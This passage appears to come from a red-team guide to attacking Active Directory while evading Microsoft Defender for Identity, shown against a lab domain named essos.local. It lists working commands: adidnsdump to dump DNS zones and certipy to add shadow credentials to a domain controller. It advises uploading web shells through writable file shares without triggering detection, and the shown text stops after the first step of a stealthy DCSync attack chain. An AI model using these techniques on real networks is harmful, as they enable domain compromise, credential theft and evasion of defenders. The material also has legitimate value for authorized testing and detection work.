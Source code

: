 ```bash
# dump the zones
adidnsdump -u essos\\khal.drogo -p 'horse' meereen.essos.local --ssl --print-zones 

# dump hostnames for zone
adidnsdump -u essos\\khal.drogo -p 'horse' meereen.essos.local --ssl --legacy --zone essos.local 
```
## Smbclient And Accessing Filesystems

This is one of my favorite techniques, as it consistently delivers surprising results in most red team engagements. It's highly stealthy and can uncover significant findings. Extracting credentials or other valuable information from the filesystem can lead to reliable privilege escalation and writable file shares are an effective method for compromising web servers for example. I've used this approach numerous times, as it essentially acts as a full-blown file upload vulnerability, often resulting in a SYSTEM shell.
Currently, Microsoft Defender for Identity (MDI) does not provide detection for file share access. This might be due to the potential for numerous false positives, making reliable detection challenging. To state the obvious be cautious when uploading web shells with known signatures, as they can trigger endpoint detection.

## Shadow Credentials

You can configure shadow credentials on computer AD objects without alert for some reasons. To perform a stealthy DCSync attack (detailed in the next section), a Domain Controller hash is required so setting KeyCredentials on a Domain Controller becomes especially advantageous.

```bash
# list, should be empty because why would anyone set a KeyCredential on a DC ??
certipy shadow -u 'daenerys.targaryen@essos.local' -p 'BurnThemAll!' -target meereen.essos.local list

# add
certipy shadow -u 'daenerys.targaryen@essos.local' -p 'BurnThemAll!' -target meereen.essos.local add

# clear
certipy shadow -u 'daenerys.targaryen@essos.local' -p 'BurnThemAll!' -target meereen.essos.local clear
```

## DCSync


The DCSync attack chain combines many different techniques, none of them trigger alerts out-of-the-box in MDI in end of 2024.

If you have gained domain admin or similar access rights within AD and you really absolutely need to dump hashes on the DC here are the required steps:

1. If delegation is denied on the DA, which it usually is in mature AD environments, use the compromised Domain Admin account to disable the NOT_DELEGATED UserAccountControl flag, so DA is allowed to be delegated. Use my fork of [ldap_shell](https://github.com/cschwarz1/ldap_shell) to do this.

